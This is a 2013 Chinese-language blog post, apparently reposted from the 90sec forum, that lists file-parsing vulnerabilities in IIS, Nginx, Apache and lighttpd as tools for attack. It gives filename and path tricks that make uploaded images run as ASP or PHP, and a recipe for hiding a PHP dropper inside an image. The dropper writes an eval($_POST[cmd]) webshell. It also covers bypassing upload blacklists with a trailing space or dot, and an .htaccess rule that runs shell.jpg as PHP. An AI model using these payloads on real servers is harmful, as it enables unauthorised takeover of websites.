 title: 各大Web服务器解析漏洞总结
tags:
  - hack
id: 370
categories:
  - Hack
date: 2013-02-07 13:07:38
---

各大Web服务器解析漏洞总结
From:90sec

[+]IIS 6.0

&nbsp;
<pre>目录解析：/xx.asp/xx.jpg  xx.jpg可替换为任意文本文件(e.g. xx.txt)，文本内容为后门代码 IIS6.0会将 xx.jpg 解析为 asp 文件。后缀解析：/xx.asp;.jpg     /xx.asp:.jpg(此处需抓包修改文件名) IIS6.0都会把此类后缀文件成功解析为 asp 文件。默认解析：/xx.asa    /xx.cer   /xx.cdx IIS6.0默认的可执行文件除了 asp 还包含这三种此处可联系利用目录解析漏洞/xx.asa/xx.jpg 或/xx.cer/xx.jpg 或 xx.asa;.jpg</pre>
&nbsp;

[+]IIS 7.0/IIS 7.5/Nginx &lt;8.03

&nbsp;
<pre>IIS 7.0/IIS 7.5/Nginx&lt;8.03在默认Fast-CGI开启状况下,在一个文件路径(/xx.jpg)后面加上/xx.php会将/xx.jpg/xx.php 解析为 php 文件。常用利用方法：将一张图和一个写入后门代码的文本文件合并将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾  e.g.  copy xx.jpg/b + yy.txt/a xy.jpg ######################################/b 即二进制[binary]模式/a 即ascii模式 xx.jpg正常图片文件  yy.txt 内容&lt;?PHP fputs(fopen('shell.php','w'),'&lt;?php eval($_POST[cmd])?&gt;');?&gt;意思为写入一个内容为&lt;?php eval($_POST[cmd])?&gt;名称为shell.php的文件######################################找个地方上传 xy.jpg ,然后找到 xy.jpg 的地址，在地址后加上/xx.php 即可执行恶意文本。然后就在图片目录下生成一句话木马 shell.php 密码 cmd</pre>
&nbsp;

[+]Nginx &lt;8.03

&nbsp;
<pre>在Fast-CGI关闭的情况下，Nginx&lt;8.03依然存在解析漏洞在一个文件路径(/xx.jpg)后面加上%00.php会将/xx.jpg%00.php解析为 php 文件。</pre>
&nbsp;

[+]Apache

&nbsp;
<pre>后缀解析：test.php.x1.x2.x3  Apache将从右至左开始判断后缀，若x3非可识别后缀，再判断x2，直到找到可识别后缀为止，然后将该可识别后缀进解析  test.php.x1.x2.x3 则会被解析为php 经验之谈：php|php3|phtml 多可被Apache解析</pre>
&nbsp;

[+]其他一些可利用的

&nbsp;
<pre>在windows环境下，xx.jpg[空格]或xx.jpg.这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，这也是可以被利用的！在向一台windows主机上传数据时，你可以抓包修改文件名，在后面加个空格或点，试图绕过黑名单，若上传成功，最后的点或空格都会被消除，这样就可得到shell。我记得FckPhp2.6就存在加空格绕过的漏洞。{Linux主机中不行，Linux允许这类文件存在}如果在Apache中.htaccess可被执行（默认不执行，这是90sec里的一位朋友说的，当初我并不知道），且可以被上传，那可以尝试在.htaccess中写入:&lt;FilesMatch“shell.jpg”&gt;SetHandler application/x-httpd-php &lt;/FilesMatch&gt; shell.jpg换成你上传的文件，这样shell.jpg就可解析为php文件</pre>
&nbsp;

[+]lighttpd

&nbsp;
<pre>xx.jpg/xx.php  [Addby loser]</pre>
&nbsp;